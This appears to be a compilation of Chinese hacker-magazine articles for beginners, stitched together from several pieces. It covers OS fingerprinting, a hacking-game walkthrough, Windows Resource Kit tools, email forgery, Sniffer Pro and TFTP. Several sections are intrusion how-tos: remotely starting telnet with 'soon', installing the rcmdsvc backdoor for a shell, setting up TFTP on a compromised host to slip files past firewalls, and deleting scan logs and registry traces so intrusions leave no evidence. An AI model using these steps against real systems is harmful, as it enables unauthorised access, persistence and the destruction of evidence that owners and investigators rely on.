**例1：** 执行 `C:\>ping 10.1.1.2` 后，返回如下信息：

```text
Pinging 10.1.1.2 with 32 bytes of data:

Reply from 10.1.1.2: bytes=32 time<10ms TTL=128
Reply from 10.1.1.2: bytes=32 time<10ms TTL=128
Reply from 10.1.1.2: bytes=32 time<10ms TTL=128
Reply from 10.1.1.2: bytes=32 time<10ms TTL=128

Ping statistics for 10.1.1.2:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss)
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 0ms, Average = 0ms
```

**例2：** 执行 `C:\>ping 10.1.1.6` 后，返回如下信息：

```text
Pinging 10.1.1.6 with 32 bytes of data:

Request timed out.
Reply from 10.1.1.6: bytes=32 time=250ms TTL=237
Reply from 10.1.1.6: bytes=32 time=234ms TTL=237
Reply from 10.1.1.6: bytes=32 time=234ms TTL=237

Ping statistics for 10.1.1.6:
Packets: Sent = 4, Received = 3, Lost = 1 (25% loss)
Approximate round trip times in milli-seconds:
Minimum = 234ms, Maximum = 250ms, Average = 179ms
```

我们根据 ICMP 报文的 TTL 值，就可大概知道主机类型。如：TTL=125 左右的主机应该是 Windows 系列的，TTL=235 左右的主机应该是 UNIX 系列的。上面两个例子里，10.1.1.2 就是 Win2000 的机器，而 10.1.1.6 则是 UNIX（SunOS 5.8）机器。不同操作系统对 ICMP 报文处理与应答有差别，所以造成 TTL 回复值不同。对于 TTL 值与操作系统类型的对应，还要靠大家平时多注意观察和积累。

### 二、直接通过连接端口根据其返回信息来判断操作系统

这种方法应该说是用得最多的一种，下面我们来看几个实例。例1：如果机器开了 80 端口，我们可 Telnet（如果有 NC 最好用 NC，它可不用盲打）它的 80 端口。

```text
Microsoft Windows 2000 [Version 5.00.2195]
(C) 版权所有 1985-1999 Microsoft Corp.

C:\>telnet 10.1.1.2 80
```

输入 get 回车（注意这里是盲打），如果返回如下信息，那么这台机器就肯定是 Windows 系列的：

```text
HTTP/1.1 400 Bad Request
Server: Microsoft-IIS/5.0
Date: Fri, 11 Jul 2003 02:31:55 GMT
Content-Type: text/html
Content-Length: 87

<html><head><title>Error</title></head><body>
The parameter is incorrect.</body></html>

遗失对主机的连接
```

如果返回如下信息，那么这台机器多半是 UNIX 系统的：

```text
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<HTML><HEAD><TITLE>501 Method Not Implemented</TITLE></HEAD><BODY>
<H1>Method Not Implemented</H1>
get to / not supported
</BODY></HTML>
```

```text
……遗失对主机的连接
C:\>
```

例2：如果机器开了 21 端口，我们可直接 FTP 上去：

```text
G:\>ftp 10.1.1.2
```

如果返回如下信息，那么这肯定是一台 Win2000 的机子了。我们还可以知道主机名，主机名就是 sgyyq-c43s950。这个 FTP 是 Windows 的 IIS 自带的一个 FTP 服务器。

```text
Connected to 10.1.1.2.
220 sgyyq-c43s950 Microsoft FTP Service (Version 5.0)
User (10.1.1.2:(none)):
```

如果返回如下信息，也可以肯定它是 Windows 的机子，因为 Serv-U FTP 是一个专为 Windows 平台开发的 FTP 服务器。

```text
Connected to 10.1.1.3.
220 Serv-U FTP Server v4.0 for WinSock ready...
User (10.1.1.3:(none)):
```

如果返回如下信息，那么这就是一台 UNIX 的机器了，因为 vsFTPd 就是装在 UNIX 上的：

```text
Connected to 10.1.1.3.
220 ready, dude (vsFTPd 1.1.0: beat me, break me)
User (10.1.1.3:(none)):
```

例3：如果开了 23 端口，这个就简单了，直接 Telnet 上去。如果返回如下信息，那么这肯定是一台 Windows 机器了：

```text
Microsoft (R) Windows (TM) Version 5.00 (Build 2195)
Welcome to Microsoft Telnet Service
Telnet Server Build 5.00.99201.1
login:
```

如果返回如下信息，不用说，这是一台 UNIX 机器，并且版本是 SunOS 5.8：

```text
SunOS 5.8
login:
```

### 三、利用专门的软件来识别

这种有识别操作系统功能的软件，多数采用的是操作系统协议栈识别技术。这是因为不同厂商在编写自己的操作系统时，TCP/IP 协议虽然是统一的，但对 TCP/IP 协议栈没有做统一规定，厂商可按自己的要求来编写 TCP/IP 协议栈，从而造成了操作系统间协议栈的不同。因此，我们可以通过分析协议栈的不同来区分不同的操作系统，只要建立起协议栈与操作系统对应的数据表，就可准确识别操作系统了。目前来说，用这种技术识别操作系统是最准确，也是最科学的，因此也被称为识别操作系统的“指纹技术”。当然识别的能力与准确性，就要看各软件的数据库建立情况了。

下面我简单介绍两款有识别功能的软件。

### 傻瓜黑客

### 1. nmap

它采用的是主动式探测，探测时会主动向目标系统发送探测包，根据目标机回应的数据包来判断对方的操作系统。用法如下：

```bash
F:\Nmap>nmap -vv -sS -O 10.1.1.5
```

返回信息：

```text
Starting nmap V. 3.00 ( www.insecure.org/nmap )
Host IS123456ADCD (10.1.1.5) appears to be up
Initiating SYN Stealth Scan against IS123456ADCD (10.1.1.5)
Adding open port 139/tcp
Adding open port 7070/tcp
（省略若干行）
Remote operating system guess: Windows 2000/XP/ME
```

```text
OS fingerprint:
（省略若干）
Nmap run completed -- 4 IP address (1 host up)
scanned in 2 seconds
```

其中，“Remote operating system guess: Windows 2000/XP/ME”这行就是 NMAP 对操作系统类型的判断。还返回了好多信息，NMAP 不愧为扫描之王（哈哈，黑客必备哦！）。

### 2. 天眼

采用被动式探测方法。不向目标系统发送数据包，只是被动地探测网络上的通信数据，通过分析这些数据来判断操作系统的类型。

配合 superscan 使用效果很好。使用方法在此就不具体介绍了。有兴趣的朋友可到网上搜一下关于天眼使用方法的文章。（注：nmap 和天眼在光盘中收录）

### 轻轻松松“二级”

钟毅榕

最近的菜鸟在忙着“考二级”……别误会哦，这里的“二级”可不是什么国家的一、二级考试，而是指一个出自“中华特工”网络技术联盟玩的黑客游戏。这个游戏的难度相当于黑客技术里的“初级”左右，所以我们干脆就称它为黑客技术中的“二级考试”吧！

在看下面的文字之前，大家不妨先到 http://www.deckfloor.com/stants/hackgame/index.html 玩一下这个游戏……如果靠自己的实力过得了的话，那么正如游戏最后所说的，谁要是再说你是菜鸟，拿刀砍他吧！如果你在玩的时候某些地方过不了关，可参考一下我玩这个游戏的过程，希望对你有点启发，呵呵！


### 第一关

首先，打开浏览器输入 URL 便进入第一关，大家可以看看图1，在这里按照上头的提示，我们的任务是要从第一关进入到最后一关。

通常所有游戏的第一关都只是热身，没什么难度，这个黑客游戏也不例外。我们可直接在页面点击右键，选择“查看源文件”，轻易便看到了第二关的 URL 地址：http://www.deckfloor.com/stants/hackgame/level2.html（图2），然后直接在浏览器中输入便可进入第二关，很轻松吧！

### 第二关

进入第二关后，第一个想法就是看看能否从源文件里找到什么线索，但是一点右键，就发现游戏屏蔽了鼠标右键（图3）。呵呵，不要紧，看来这一关是要考大家怎样破解鼠标右键的限制。这里简单给大家介绍几个方法：第一招是单击右键，出现图3的对话框后，用鼠标左击那个“确定”按钮（这时不要松开左键）后，再点击鼠标右键（这时鼠标左右键都按下去了），然后放开左键，最后再放开右键，怎么样？右键菜单又出来了吧（图4）！


第二招是直接用快捷键，按住键盘的 Shift 键不放，再按键盘上方的 F10 键。嘿嘿！右键菜单照样出来。


第三招是在浏览器的地址栏前直接输入“view-source:”，这里我们输入“view-source:http://www.deckfloor.com/stants/hackgame/level2.html”，代码便出来了。

第四招是直接选择浏览器“查看”菜单中的“源代码”。这个游戏居然没有屏蔽这个菜单选项。至于其它方法在这里就不介绍了，大家自己研究一下吧！

利用上面的方法，我们打开了第二关页面的源文件，和第一关一样，可轻松看到第三关的链接地址是 http://www.deckfloor.com/stants/hackgame/level3/level3.htm。

### 第三关

进入第三关后，上头没有再给我们任何指示，但该页面也没有屏蔽鼠标右键。那赶快打开源文件找找看吧！用“黑人”牌菜鸟专用放大镜找了半天，也没找到进入第四关的地址。

这关考的是逻辑思维能力，我们不妨先把第一、二、三关的地址写下来看看：

- www.deckfloor.com/stants/hackgame/index.html
- www.deckfloor.com/stants/hackgame/level2.html
- www.deckfloor.com/stants/hackgame/level3/level3.htm

看出什么来没有？其实很明显，第四关的地址前面应该和前几关一样，经过尝试可知，第四关地址是在第三关地址中去掉“level3.htm”，即：http://www.deckfloor.com/stants/hackgame/level3/。

### 第四关

转眼间我们便来到第四关了。一进入第四关的页面，便弹出一个窗口，要求输入进入第五关的密码（图5）。


于是打开源文件分析了一下，很轻易地看到密码是 `PASSWORD="AbcdE"`。但这可不同第一、二关，不禁让人产生怀疑。

把源码从头看到尾，再从尾看到头，终于发现有个胖子在探头探脑地，形迹十分可疑。转去严刑拷问了一下，终于招了！（图6）

原来这胖子就藏在页面开头的 JavaScript 里，输入 `http://www.deckfloor.com/stants/hackgame/level3/JavaScript`，出现了图7窗口。真正的密码原来在这里，名字就叫做 `TheStantIsGood`。


```html
<HTML>
<HEAD>
<SCRIPT src="JavaScript"></SCRIPT>
<SCRIPT language="JavaScript">
pwd = prompt("欢迎来到第四关，请输入密码进入第五关：","");
if (pwd==PASSWORD){
  alert("密码正确!进入第五关...");
  location.href = CORRECTSITE;
}else{
  alert("密码错误!返回!!!");
  location.href = WRONGSITE;
}
PASSWORD="AbcdE";
CORRECTSITE="level5.html";
WRONGSITE="http://www.stant.net.tf";
```


```text
PASSWORD = "TheStantIsGood";
CORRECTSITE = "thelev15.html";
WRONGSITE = "http://www.stant.net.tf";
```

### 第五关

这一关有点难度，也像第四关那样要输入密码，但不同的是，密码输入框是 Flash 做的，所以在页面源文件中找不到密码。

这时可用 Flash Catcher 等工具抓取文件，把 Flash 文件保存到硬盘上；或者直接在 Windows 的 Temporary Internet Files 中找到 `index.swf`，再用 UltraEdit32 打开仔细查找。

第六关的 URL 地址也已经出现（没有任何加密），把它输入 Flash 文件的密码框后，门就打开了。


### 后记

嘿嘿，怎么样，可以看到图12所示的页面了吧。


> ### 小提示
> 其实这一次还有一个小技巧，可以很简单就通过了。我们可对着页面上的那个 Flash 文件点击右键，然后选择“快进”选项（图10），这时会提示密码正确（图11），然后我们点击“Go”按钮便通过了！


顺利通过了菜鸟“二级”水平考试，是不是很有成就感呢？其实，在游戏中可培养我们的逻辑思维和技巧。要是其它论坛也像“中华特工网络技术联盟”那样，多为我们菜鸟着想，多编一些这类的游戏，寓教于娱乐，相信我们的菜鸟用不了多久就可以展翅高飞了！

### Win2k-svr 的超级工具箱

Resource Kit

PYTHON

说道 Resource Kit，我想很多人都不陌生吧！这是专门为 Windows 准备的工具箱，里面附带了 N 多的工具，其中有相当多的工具只要善加利用，就可使我们在 hacking 过程中事半功倍……

有在命令行下关机或重启的命令，不过，如果我们有 xnet（在 Win2k svr 里的 Resource Kit 中）这个工具，就可做到在命令行下关机或重启计算机。命令使用很简单，有几个简单的参数（图1）。

### 一、远程重新启动计算机


这里的参数 Reboot 和 Shutdown 便是用来重启和关机的。运行命令 `xnet shutdown` 便会弹出一个提示，提示在一分钟后即将关机，接下来就是等待……一分钟后，便会关闭计算机。

缺点：要等待一段时间；另外，由于在等待过程中会弹出一个提示，所以，如果对方的 administrator 正坐在计算机前的话，呵呵……节哀吧！

### 工具：shutdown

也是一个远程关机或重启的工具，有两种运行方式。如果在命令行提示符中直接输入 `shutdown`，会跳出 GUI 的界面（图2）。在这里可以选择要关闭的计算机；如果想给对方重新启动计算机，就勾选“Reboot after shutdown”这一项。另外，在最下面的“Delay(seconds)”里还可设置延迟时间（以秒计），如果设置为 0，那么对方就立刻关机了。


除了 GUI 界面外，该工具还可在命令行下使用，只要在命令行提示符下输入 `shutdown /?` 就会弹出一张卡片，里面写有帮助信息（图3）。虽然是英文，不过很好懂，大家自己看看吧！

```bash
shutdown /?
# 显示 shutdown 命令帮助（参数说明）
```

如果是选择关机而不是重启，那么当对方的计算机正常关闭后，可能会出现“现在可安全地关闭计算机”的字样，以提示需要有人手动关闭电源。所以，使用 shutdown 最好还是用来远程重启计算机。

> 注意：如果要控制 Win2k 远程主机，且没有强制关机参数时，必须使用有相关操作权限的用户名。

### 二、查看进程列表

### 工具：pulist

以前我曾在《黑客 X 档案》中介绍过 `tlist` 这个工具（在 Win2k 光盘的 support tools 里），它的作用也是列出进程、列出进程名和进程对应的 pid 值。而这里要介绍的 `pulist` 则不同，它不但可以列出进程名和进程的 pid，还可以列出当前情况下运行该进程的用户。

使用方法很简单，只要 `pulist` 一下，进程就尽收眼底了（图4）。从图中不难看出，第一列是进程，第二列是进程的 pid，第三列则是运行该进程的用户。

```bash
pulist
# Process    PID    User
# ...
```

这样，如果有人使用其他用户名连接或登录你的计算机，可很方便地查到；而且还能观察对方调用了哪些应用程序。另外，pulist 的厉害之处还在于：除了能查看本地进程外，还可查看远程的进程列表。首先，建立 IPC$ 连接，然后使用命令 `pulist \\server_name` 就可看到远程主机的进程列表（图5）。不过，这样查看出的只有进程和进程的 PID，该进程的拥有者却无法查到。

```bash
pulist \\192.168.0.1
# 远程主机进程列表
```

### 三、查看当前时间

### 工具：now

没什么好说的，这个家伙不带任何参数，直接 `now` 一下，就可显示本地时间（图6）。不过，正因为它没有任何参数，所以很惨，不能查询远程的时间……

```bash
now
Wed Apr 23 13:43:08 2003
```

### 四、代替 at 命令的好东东

很多朋友都抱怨 at 命令在时间上不好掌握，或是由于对方的时间显示格式不同而导致使用 at 命令失效。这里推荐工具 **soon**，它的作用和 at 一样，命令却简单明了，而且最大的好处就是不需要判断对方使用的时间格式，直接使用即可。

```text
SOON [\\computername] [delay] "command"
```

这里的 `\\computername` 可为对方的主机名（在同一个局域网内时）或为对方的 IP 地址；`delay` 就是延时，以秒计算，例如 `delay` 处写 30 的话，就是 30 秒以后执行后面 `command` 命令的内容。

```text
soon \\192.168.0.140 net start telnet
```

然后用 at 命令查看一下（图7），确定给对方添加计划任务成功。然后只要等待三十秒，Telnet 就可连上去。


> 注意：使用 soon 命令也是在建立 IPC$ 连接的前提下；另外 soon 命令也依靠 Task Scheduler 服务，所以要保证对方的 Task Scheduler 服务开启。

### 五、查找文件

一些朋友比较马虎，在上传完工具后找不到上传到哪里或忘记了。因此，推荐工具——`where`，一个命令行下查找文件的小工具。查找文件的命令很简单：

```text
where /r x:\ file.exe
```

这里的 `/r` 是 where 的参数；`x:\` 则是想要搜索的盘符；`file.exe` 是文件名。例如在 C 盘中搜索 nc.exe，命令为：`where /r c:\ nc.exe`，等待后即可得到结果（图8）。


### 六、资源工具箱带给我们的后门

这个工具分为两部分，分别为：`rcmd.exe` 和 `rcmdsvc.exe`。其中 `rcmdsvc.exe` 为服务端（图9），需要在被控制主机上安装，安装命令很简单：`rcmdsvc /install` 或 `rcmdsvc -install`，安装完成后会有返回信息提示成功（图10）。这时还不能使用，因为服务默认安装后并不是开启的；要手动启动，命令为：`net start rcmdsvc`，等待返回启动成功信息（图11）。


现在服务端已经安装并启动，接下来使用客户端 `rcmd.exe`。运行后按提示填入服务端主机名（或 IP 地址），即可获得一个 shell（图12），后续操作方式与 Telnet 类似。


> 注意：对方必须开启 IPC$ 共享才可以，否则将不能连接。

简单分析一下后门是否容易被发现：先在远程主机安装并开启 rcmdsvc，再在客户端连接并进行嗅探；例如运行 `rcmd` 连接远程机后，执行 `net user test_user /add` 添加用户。抓包结果显示两个关键点（图13、图14）。


通过这两幅图可得结论：该连接的通信基础是 IPC$ 共享；若该共享不开放则无法连接。另外传输协议为 SMB，因此若未安装 NETBEUI 协议或未将 NETBEUI 绑定到当前传输协议（通常是 TCP/IP），传输将无法进行。

在计算机上删除掉了 NETBEUI 协议，果然是无法进行连接，有兴趣的朋友也可以试一试）。


图14

从实验过程中发现，传输过程还是比较隐蔽的，但由于该程序是由系统资源工具箱附带的，所以安装后它会在管理工具的“服务”中注册，因此就这一点来说，比较容易被发现。以上只是简单介绍了 Resource Kit 中的几个工具……


## 无雾

一些朋友在邮箱里会收到一些来自某大型网站的邮件，内容可能是说你中奖、获得福利，要求填写个人资料……其实这些邮件可能是黑客伪造的。下面就简单介绍一下这些邮件是怎么伪造出来的。

首先要拥有一台 SMTP 服务器。安装 Win2000 Server 后可配置 SMTP 服务，启动后即可用于演示伪造邮件流程。

在 IIS 的 SMTP 服务属性中启用中继并添加服务器 IP（图1），完成配置后开始伪造邮件。先进行 Telnet，执行“开始→运行→Telnet”，输入 `set local_echo`。

然后进入 25 端口：`open ip 25`（ip 为 SMTP 服务器地址），可见图2所示界面；接着输入一段字符串，`<cr>` 代表回车。

```text
输入 helo<cr>
返回 250 ... Hello [...]
输入 mail from: hacker@hacker.com<cr>
返回 250 ... Sender OK
输入 rcpt to: xiaoli5618@sina.com<cr>
返回 250 ...
输入 data<cr>
返回 354 Start mail input; end with <CRLF>.<CRLF>
```

此时邮件基本完成：`mail from` 为源地址（可伪造），`rcpt to` 为目标邮箱，`data` 后输入正文并以 `<CRLF>.<CRLF>` 结束。

```text
From: wuqin <cr>
Subject: no subject <cr>
<cr>
```

上面是邮件的一些信息，发件人和标题；也可以简写，一般写一个 subject 即可，发件人可由邮箱代替。

```text
<cr>
body of message<cr>
<cr>
```


图1


图2


图3

### 傻瓜黑客

图4

图5

返回 `250 2.6.0 <ECNU-WUQINU5CJV3tcC00000002@ecnu-wuqin> Queued mail for delivery`，打星号的就是邮件内容（图3），内容就由各位自己决定了。要注意一点的是，上面这些邮件地址还有一些关键字（比如 helo、mail from 等）都不能输错了，错误了就不可修改，要重新登录再进行输入。

这样就把一封伪造的邮件发送到 `xiaoli5618@sina.com` 里了。我们可以打开这个邮箱看一下，如果没收到的话那再等一段时间，收到后可看见这个邮件（图4）；如果没有写 `from:wuqin` 的话，就可看见伪造地址了。我又写了一次，没有加 from 这一行，得到另一封邮件（图5）。

由此我们可以看出，一封邮件是多么容易伪造，大家不能仅凭发件人的地址就轻易相信它，还要多判断判断哦！

sniffer（嗅探器）对于任何一个 hacker 来说，都是必不可少的工具。一个好的 sniffer，可以获得大量而且详细的信息。在这方面，sniffer pro 做得就相当出色。想必 sniffer pro 的大名应该是无人不知吧！

sniffer pro 无论是它的界面还是帮助，都是全英文的，在网上也很难找到中文教程。因此，对我们广大使用汉语的同胞来说实在是不便。

这里，笔者就发挥一下半瓶子醋的英文水平，给大家简单介绍 sniffer pro 中常用的一些工具和使用方法，希望对你有所帮助。（注：光盘中收录有 sniffer pro）

## 一、数据包捕捉及分析

Sniffer pro 不但具有一般嗅探工具的数据包捕捉功能，更有针对多种协议的分析功能以及相当多的实用工具。下面，我们就针对 sniffer pro 的这些功能做一些简述。

### 图1. Capture（数据包捕捉功能）

这是任何 sniffer 工具必备且最基本的功能了。sniffer pro 在这方面做得非常出色：因为 sniffer pro 在抓包过程中，可以说是做到“滴水不漏”，无论是使用什么协议进行通信，它都可将其过程非常完整、精准地捕捉下来。

- 1. 开始捕捉：执行“capture→start”或按工具栏中的开始箭头按钮，也可使用快捷键 F10。  
- 2. 停止捕捉：在“capture”菜单中选择“stop”或按快捷键 F10，也可按任务栏中的红色停止按钮。  
- 3. 分析数据：在“capture”菜单中选择“Display”或快捷键 F5，任务栏“望远镜”图标也可。  
- 4. 抓包完成后：在“layer”下选择“object”按钮，可查看服务（service）、应用程序（application）、会话（session）等信息。  

这里，这些数据仅能做一些参考，只是对一些特定过程的宏观记录而已，并没有详细的信息。

如果我们想要分析会话过程的数据包信息，选择“Decode”卡片（图1）。

图1

在这里，我们可看到通信过程的详细数据内容。至于如何分析这些数据，不在本文讨论范围之内。现在，我们已经学会了简单的数据捕捉和分析方法。

### 图2. 卡片介绍

除了这些，大家应该注意到，除 Decode 卡片外，还有很多卡片可以选择，这些卡片都是很有用的。我这里给大家一一介绍。

（1）Matrix 卡片。

首先，在另一台机器上来 ping 我的主机，然后我在这里进行抓包，抓包完成后开始分析。在这里，我选择“Matrix”卡片，我们可以看到“Traffic Map”（图2）。

图2

这张 Traffic Map 非常有意思，通过它，我们可看出不同协议的数据传输方向。而且，还可根据不同的传输方式来查看（两种方式：MAC 和 IP）。

图3

可通过选择左上角下拉条中的 MAC 和 IP 来查看（图3）。我们会发现，当选择 MAC 和 IP 时，两张图是不一样的（图4）。在选择了 MAC 之后，在图中是使用 This station、Realtek02D84C 和 Broadcast 来分别标识本地地址、远程主机地址和广播地址。而选择了 IP 之后，则是使用 `192.168.0.2`、`192.168.0.1` 和 `192.168.0.255` 来分别标识本地地址、远程地址和广播地址。

图4

另外，可在左上角通过勾选 IP、IP ARP、ICMP 和 NETBIOS_NS_U，来从图中查看不同协议的传输方向。例如，在这里我们选择 IP，然后在下面去掉“NETBIOS_NS_U”前的勾，只选择 ICMP，这时就可从图中看到 ICMP 协议的传输方向是在 `192.168.0.1` 和 `192.168.0.2` 之间（图5）。因此，从这里可看出这个 ping 的过程发生在 `192.168.0.1` 和 `192.168.0.2` 之间。

图5

通过实例，大家应该清楚 Traffic Map 的作用了吧。

### （2）Host Table 卡片

| Host Table 示例 |
|---|
| 图6中展示了按主机统计的流量表格截图 |

图6

接下来，我们来看“Host Table”。还是那个 ping 的过程，我们选择 Host Table 卡片，它相当于一个统计表，针对本地主机、远程主机和广播地址这三项进行统计。从这里我们可查看不同协议的数据出站数目和入站数目等信息（图6）。在一个局域网内，使用这一选项，可查看每个节点主机的相关信息统计，这样更有利于网管分析每个节点的流量。

### （3）Protocol Dist 卡片

下一个卡片是“Protocol Dist”，这是一个数据捕捉过程中活动协议的数据流量分析，很简单，一目了然。

### （4）Statistics 卡片

下一个是“statistics”。在这里将列出一张“统计表”，该表统计了所有的网络流量数据，非常详细，列出了所有协议的相关参数，作为整体的流量分析，是个非常不错的统计列表。另在 Matrix、Host Table 和 Protocol Dist 三张卡片上部还有几个按钮，可切换不同图形方式查看。

## 二、自带的实用小工具

上面说了半天，都是针对捕捉到的数据包的分析。下面，我来说说 sniffer pro 特有的好东西——sniffer pro 自带的实用小工具。这里，笔者针对几个实用工具做些简单介绍。

### 1. Dashboard

在 sniffer pro 下有两行快捷按钮，第二行有一个像汽车仪表的按钮，按下后会弹出 Dashboard 窗口（图7）。

图7

Dashboard 算是一个网络流量监视工具。它可监视网络中数据段的传送速度，还可记录网络的利用率（以百分比形式记录），并记录错误数据的产生等，而且这些都是实时记录。

- 1. **Network**：在这里可监视网络状况，通过勾选右边选项，可监视传送的数据包、错误数据包、丢弃的数据包等。  
- 2. **Detail Errors**：记录详细错误信息，如坏包、超过传输量大小的数据包、碎片、CRC 校验码等。  
- 3. **Size Distribution**：记录数据包分配状态，可直观看出传输量；在局域网监视时一般选择 65–1275/s，波动大时可适当选择更大数值。  

图8

另外，注意 Dashboard 的最上面，是三个像仪表一样的东西在记录流量；如不习惯，可选择“Detail”用数据详细列表模式查看。还可选择左上角的“Show Total”或“Show Average Rate/s”，即显示全部流量记录或显示平均速度。

### 2. Host Table

点击 Dashboard 后面那个两个计算机连接的小图标，就会出现 Host Table。Host Table 实际就是针对流量的一个图形化分析（图9），在不需要过细分析、只想查看某台计算机流量大小时非常实用。

图9

在 Host Table 的左边，有三个按钮，分别控制三种不同的数据流量统计显示方式。下面还有一个停止按钮，用于停止实时监视；另有一个叉号按钮，作用不大。一个叉子的按钮，用来删除当前的流量状况图，在建立新的图表时要用到它。

另外，在图表下面还可选择“MAC、IP、IPX”这三种不同的传输方式，来针对不同的网络特性进行有针对性的监视。至于如何查看和分析结果，大家一看就知道了，因为是图形化的表示，非常明了。

### 3. ART（Application Response Time）

在那行快捷按钮上仔细找一下，会发现上面有一个写着“ART”的按钮，这是一个针对 HTTP 协议进行监视的工具。为证明这一点，我们来制造一次 HTTP 请求/响应的过程，这时会发现已经出现了记录（图10）。

图10

另外，通过左边的按钮，同样也可选择使用列表或图形方式进行查看。其查看和使用方法和 Host Table 极其相似，所以就不多讲了。其他还有几个工具，但如果仔细观察，大家就会发现，剩余的几个工具实际都是以上介绍的那些工具的一部分，或是以不同的方式表示出来。所以，笔者就不介绍了。

到这里，关于 sniffer pro 的介绍就完毕了。本文只是介绍了一些工具的作用和简单的操作方法，并没有涉及过多的分析和其他相关知识。

## 三、写在最后

结束前再说一个关于 sniffer pro 的问题：很多朋友在装完 sniffer pro 并运行后，发现 sniffer pro 要求选择网卡，但无论怎样选择都是无法使用。

首先，确定你机器上是否有网卡；如果没有，则不能使用 sniffer pro。其次，确认网卡处于活动状态。最后，若网卡存在且活动但仍不能使用，问题多半在驱动上。Win2k 自带驱动不一定是当前网卡最佳选择，建议到厂商站点下载最新驱动并重装。按这几个步骤，足以解决大部分问题。如仍有问题，欢迎到 http://www.hackerxfiles.net/bbs/ 讨论。

## 入侵不留痕

——清除本机记录

近墨者

菜虎和菜鸟是同窗好友，经常在一起讨论网络安全问题（也就是攻击与反攻击）。一日，菜鸟洋洋得意地对菜虎说：“昨天又进了一台主机，要不要看看我的战果！”菜虎笑道：“战果就不必看了，不知你有没有擦干净屁股呀！”菜鸟不屑地说：“别的咱不敢说会，要说清理对方记录还是会的，不就是清理日志记录嘛！再就是停止对方 WEB 与 FTP 服务，删掉这两个服务的当天记录，要不就是删掉对方主机中的一些 log 文件。”

“你说的是清理对方主机中的记录，我们问的是你有没有想过清理本地主机中的记录？”菜虎提醒道。菜鸟若有所思地点头。菜虎接着说：很多黑客工具会把每次使用结果记录下来，随着入侵测试增多，本地硬盘中的记录也会越来越多；一旦东窗事发，这些记录就是证据。

菜鸟半信半疑地说：“不会吧。”菜虎问：“你平常用什么工具扫描？”菜鸟答：“当然是 X-way2.5 了，易上手，功能强大。”随后菜虎让其打开程序目录中的 report 文件夹，里面有多个网页文件，每个文件以扫描 IP 命名，证明这些都是扫描记录与证据。

“瞧见没有，这些都是你扫描的证据，不管你入侵与否，至少可证明你扫描了这台主机，存在入侵动机。”菜鸟辩解：“那把这些网页文件全删掉就行了。”菜虎说：“不仅是这些网页，在该文件夹内还有 log 文件夹，记录了更详细的扫描结果，也要删除。”

菜鸟又问：“那别的扫描工具呢，如 X-scan2.3 或流光呢？”菜虎分别打开两个工具所在目录说明：X-scan2.3 的记录保存在程序目录下 log 文件夹；流光的记录在 reports 文件夹中（如 netcyeslogo.jpg、temp.de 等也要注意处理）。

菜鸟听后仍辩称：“就算有这些记录，也不能说明我进过主机。”菜虎笑道：“那我再给你看一个程序。”随后打开远程终端连接工具（通过 3389 端口连接对方主机），下拉框中显示了许多 IP 地址，并问：“这些 IP 是不是你曾经连接过的主机？可以算一个你入侵的证据？”

菜鸟呆了呆说：“哇！我怎么没发现，那怎么去掉这些记录呢？”

菜虎说：“其实，这些信息就记录在注册表中，打开注册表编辑器（regedit.exe），依次展开到 `HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Default`，在其下有 `MRU*`（*代表数字）项，这些项记录的就是远程开放 3389 端口的 IP，在其上点击右键，删除即可。”

菜鸟听出了点名堂，饶有兴趣地问：“还有没有别的记录？别卖关子了，你一块儿说了吧！”

菜虎说：“要说记录信息的工具，还有一个就是微软自带的 IE 了……”（后文继续）

……“那……那怎么办！”菜鸟真有点紧张了。

菜虎大咳一声，说：“其实，用 U 漏洞执行这些命令，就相当于用 IE 浏览网页，所有链接都存放在 IE 的历史记录中。只要进入 IE 的属性，清除历史记录就可以了……”

“哦！原来如此。”菜鸟如释重负地松了口气，接着问：“还有没有啊！”

菜虎意味深长地说：“当然还有了，要看你使用什么样的工具了，在使用工具后，不仅要清除对方主机中的一些记录，还要仔细分析该工具有没有将得到的对方信息保存在本地主机中，只有做到‘挖抓不留痕’，方能有备无患。”

**案例：** 菜鸟 A 通过时下比较流行的 webdav 漏洞，溢出攻击得到了一个 shell，但在加了管理员账户后，却发现建立了管理员账户却不能 ipc$ 连接，在 cmd 下又不能开启 ipc$，提示启动错误。……这时，一个声音在耳边响起：用 Tftp 吧！……今天我就给菜鸟们讲解一下它的安装使用过程，以及在入侵中的作用和自己的心得体会。

### Tftp 简介

Tftp 是 Trivial File Transfer Protocol 的简称，译为简单文件传输协议。它是 TCP/IP 协议中用来在客户机与服务器之间进行简单文件传输的协议。虽然功能较少，但在入侵中帮助很大。

Tftp 与 Win2K 自带的 Ftp 服务不同：Tftp 承载在 UDP 端口，体积更小；不提供存取授权与认证机制；使用超时重传保证数据到达；常用 UDP 69 端口。由于采用 UDP 端口，较容易绕过防火墙和 IP 安全策略对端口的审核，可在入侵时灵活使用。

### Tftp 服务的开启

也许你还记得经典的 unicode 漏洞，利用这个漏洞可在浏览器里执行命令，可通过 Tftp 上传 idq.dll，然后结合 ispc.exe 来获取管理员权限。……可在命令行下输入：

```bash
dir %windir%\tftp* /s
```

### 傻瓜黑客

大家也看到了，这里出现了一个 **Tftpd.exe** 程序。没错，它是 Tftp 服务端程序。怎么开启肉鸡的 Tftp 服务呢，这里我们需要 ResourceKit 里的工具 **instsrv.exe**（光盘中有收录），把 Tftp 安装为服务，`srvinstw.exe` 是它的 GUI 版本。

```bash
C:\Longker>instsrv.exe
Installs and removes system services from NT.
INSTSRV <service name> <exe location> [REMOVE]
[-a <Account Name>] [-p <Account Password>]

Install service example:
INSTSRV MyService C:\MyDir\DiskService.Exe

Remove service example:
INSTSRV MyService REMOVE
```

那我们就把 Tftp 安装为服务：

```bash
C:\Longker>instsrv "Tftp services" c:\winnt\system32\dllcache\tftpd.exe
The service was successfully added!
```

就这样，我们把 Tftp 服务安装上了，服务名是 **Tftp services**，下面来启动它：

```bash
C:\Longker>net start "tftp services"
Tftp services 服务正在启动...
Tftp services 服务已经启动成功。
```

OK，服务已启动成功，我们可用 fport 来查看端口开启情况：

```bash
1524  tftpd  ->  69  UDP  c:\winnt\system32\dllcache\tftpd.exe
```

看到了，它是采用 UDP 协议来进行文件传输的，开启的端口是 69。或者我们可用以下命令来查询：

```bash
C:\Longker>netstat -an | find "69"
UDP    202.xx.xx.165:69
```

服务启动成功后，会在系统根目录下生成 **tftpdroot** 文件夹，上传和下载文件就放在这里。这里推荐一个好用的 Tftp 服务器（Cisco Tftp Server），有日志记录和目录设置功能，显示传输进度，免费且跨平台。

### 如何使用 Tftp

